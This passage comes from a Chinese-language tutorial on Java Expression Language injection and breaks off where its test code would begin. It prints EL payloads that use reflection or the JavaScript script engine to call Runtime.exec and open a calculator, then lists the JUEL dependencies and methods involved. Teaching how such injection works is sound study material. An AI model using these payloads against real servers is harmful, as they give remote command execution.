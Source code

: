 ![image-20220510165812033](images/3.png)

但是呢，这只是针对jsp的，在实际情况下我们几乎没有办法从外部控制jsp的EL表达式，大多数是java程序的也就是框架的服务端的EL表达式来造成注入漏洞的

对于java程序可以控制输入的EL表达式为

```
${''.getClass().forName('java.lang.Runtime').getMethod('exec',''.getClass()).invoke(''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null),'calc.exe')}

或者直接
${''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null).exec('calc',null)}
```

其实也就是我们在jsp中`setAttribute`中的第二个参数，这里就是通过反射来调用了`Runtime.getRuntime().exec`

EL+JS引擎的命令执行

```
${''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("java.lang.Runtime.getRuntime().exec('open -a Calculator.app')")}
```

# Java代码中的EL注入——JUEL

因为我们平常对于这种注入遇到的还是在java代码中的注入，所以还是来关注java代码方面的内容

首先要导入几个包

```
<dependency>
    <groupId>de.odysseus.juel</groupId>
    <artifactId>juel-spi</artifactId>
    <version>2.2.7</version>
</dependency>
<dependency>
    <groupId>de.odysseus.juel</groupId>
    <artifactId>juel-api</artifactId>
    <version>2.2.7</version>
</dependency>
<dependency>
    <groupId>de.odysseus.juel</groupId>
    <artifactId>juel-impl</artifactId>
    <version>2.2.7</version>
</dependency>
```

主要使用的方法

```
javax.el.ExpressionFactory.createValueExpression()
javax.el.ValueExpression.getValue()
```

测试代码
